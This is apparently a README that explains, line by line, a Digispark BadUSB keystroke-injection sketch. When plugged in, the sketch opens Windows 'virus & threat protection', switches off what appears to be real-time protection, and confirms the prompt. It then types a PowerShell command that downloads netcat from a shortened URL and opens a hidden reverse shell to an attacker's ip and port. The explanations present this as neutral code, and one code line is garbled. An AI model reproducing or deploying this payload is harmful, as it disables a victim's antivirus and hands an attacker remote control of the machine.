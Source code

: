 <code>#include "DigiKeyboard.h"</code>
<p>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</p>

<code>void setup(){</code>
<p>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>
<p>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>Another delay of 1000 milliseconds is introduced.</p>

<code>DigiKeyboard.print("virus & threat protection");</code>
<p>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</p>

<code>DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code>DigiKeyboard.delay(5000);</code>
<p>A delay of 5000 milliseconds (5 seconds) is introduced.</p>

<code>DigiKeyboard.sendKeyStroke(43);</code>
<p>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>

<code>DigiKeyboard.delay(700);</code>
<p>A delay of 700 milliseconds (0.7 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>

<code>DigiKeyboard.delay(700);</code>
<p>Another delay of 700 milliseconds is introduced.</p>

<code>  DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Space key.</p>

<code>DigiKeyboard.delay(2000);</code>
<p>A delay of 2000 milliseconds (2 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>A delay of 1000 milliseconds (1 second) is introduced.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
<p><The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows./p>
  
<code>  DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</p>

<code>DigiKeyboard.delay(700);</code>
  <p>A delay of 700 milliseconds (0.7 seconds) is introduced.</p>

<code>DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
<p>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</p>
  
<code>code></code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code>void loop(){}</code>
<p>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions</p>




